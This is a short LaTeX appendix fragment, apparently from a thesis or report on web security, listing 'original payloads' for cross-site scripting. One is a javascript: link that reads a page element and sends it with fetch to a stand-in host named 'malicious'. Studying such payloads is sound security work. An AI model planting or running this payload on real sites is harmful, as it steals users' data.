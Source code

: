 \section{Attachments}
some attachment...


\begin{lstlisting}[style=basicStyle, caption=original payloads, label=lst:originalpayloads]
XSS payloads:
alert("XSS")
<a href="javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//malicious:3001/api/sendsecret', data)">ClickMeFor$</a>
\end{lstlisting}
